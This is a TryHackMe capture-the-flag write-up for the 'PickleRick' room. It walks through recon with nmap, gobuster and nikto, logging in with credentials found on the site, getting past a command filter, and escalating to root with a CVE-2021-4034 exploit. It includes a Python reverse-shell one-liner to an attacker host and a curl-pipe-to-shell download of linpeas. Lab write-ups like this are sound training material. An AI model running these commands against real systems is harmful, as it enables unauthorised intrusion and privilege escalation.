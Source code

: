 ## TryHackMe - PickleRick
> Completed 1st November  2021. Revisited 30th August 2022.

A Rick and Morty themed box that I had completed the year before but never got around to documenting. Revisiting this box interested me in the sense that I had completely forgot how I had enumerated it originally. So, it was great to relearn some techniques.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Nikto
- Gobuster
- Netcat
- Linpeas.sh ([source](https://github.com/carlospolop/PEASS-ng))

---
### Methodology
#### Objectives/Flags
1. What is the first ingredient Rick needs?
2. What's the second ingredient Rick needs?
3. What's the final ingredient Rick needs?

---
#### Reconnaissance
First things first, I ran an `nmap` scan to find open ports.
```bash
nmap -T4 -sV <TargetIP>
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see an open web server which we can navigate to through our browser.
```
http://<TargetIP>/
```
From here we can begin crawling the source code.
```
Note to self, remember username! Username: R1ckRul3s
```
We've found a potential username. What it belongs to is still unknown. The site is simple and runs in html so there's not much more I can try to search for. I start fuzzing for directories using `GoBuster` . 
```bash
gobuster dir --url http://<TargetIP>/ -w <Wordlist> > <Output.txt> -t 100 --timeout 20s
  /robots.txt           (Status: 200) [Size: 17] 
  /login.php            (Status: 200) [Size: 882] 
  /assets              (Status: 301) [Size: 313]
```
Here I found an `assets` directory which doesn't seem to have any files of interest other than miscellaneous image files. Although, some of these files aren't found on the index.html page giving us the hint that there's more pages to find.
```
http://<TargetIP>/robots.txt
  Wubbalubbadubdub
```
The robots file gives us an interesting string we can save for later.
```
http://<TargetIP>/login.php
```
The login page was not found until after a good deal of time enumerating elsewhere as I had failed to account for the fact that my regular wordlist did not fuzz for files. It was upon using `Nikto` for the first time that I was hinted at this lapse of enumeration.
```bash
nikto -h <TargetIP> -p 80
```
```
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Cookie PHPSESSID created without the httponly flag
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
```
Most the output of `Nitko` didn't aid me in my reconnaissance and lead me to dead ends (Atleast, it appeared that way to my limited abilities) however, it showed me that there was an `login.php` which I had not found earlier using `Gobuster`.

At the login page it was time to enter the data that we had sourced from earlier.
```
Username: R1ckRu3s
Password: Wubbalubbadubdub
```
We've made into the administrator’s's console. It appears we don't have permission to access the other various tabs and only the console. We can start testing inputs.
```bash
ls
assets
  clue.txt
  denied.php
  index.html
  login.php
  portal.php
  robots.txt
  Sup3rS3cretPickl3Ingred.txt
```
```bash
cat Sup3rS3cretPickl3Ingred.txt
  Command disabled
```
We find that several commands have been disabled, specifically those that are needed to print the contents of files such as `nano`, `vim`, `cat` and `tail` etc. I was curious to know if there was a way to get around this but there was no clear way to get the contents of the PHP files to better understand the filtering. A google searched revealed the `tac` command which essentially does the same thing as `cat` and upon testing the command we were successfully able to print out contents. I found this interesting as I didn't know that this command existed and I'm not sure if it's a regular command that's available.
```bash
tac Sup3rS3cretPickl3Ingred.txt
   {***}
```
The first flag has been found. With the `tac` command discovered we can further search the filesystem for loot. After some time, we can find the second flag in the home directory of the user `Rick`.
```bash
tac /home/rick/second ingredients
  1 jerry tear
```
After spending some more time searching the file system, I don't turn up anything of interest. We need to get a foothold into the server to progress by searching the `/root` folder.

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
Through command testing we can discover that python is installed on the server, and we can initiate a reverse shell. We throw in our malicious command into the console.
```bash
nc -lvnp 1234
```
```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<AttackIP>",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
Once a foothold was established, I was able to scan the server using `Linpeas` by setting up a HTTP server on my machine and using `curl` to download it.
```bash
python3 -m http.server 4443 --directory <sharedfile>
```
```bash
curl http://<LocalIP>/linpeas.sh | sh
```
The results show us that the server is vulnerable for `CVE-2021-4034` which we can exploit using a script found on `ExploitDB` [here](https://www.exploit-db.com/exploits/50689).
By downloading the files on the attack machine using `wget` the directory.
```bash
wget -r <ExploitURL>
chmod +777 <ExploitDirectory>
make
./<exploit>
```
The exploit escalates us to the `root` user where we can further our search for loot.
```bash
cat /root/3rd.txt
  3rd ingredients: ***
```
With all the flags found, the box was complete.

---
### After-action
#### What I've learned
Using `Nikto` for the first time highlighted my lack of proper wordlist usage in terms of enumerating for files and not just directories. I've started making new notes in my knowledge base to better playbook my usage and apply the relevant wordlists when needed. In addition, I've found the `tac` command which I may be able to leverage in future.

#### What I would've done differently
N/A
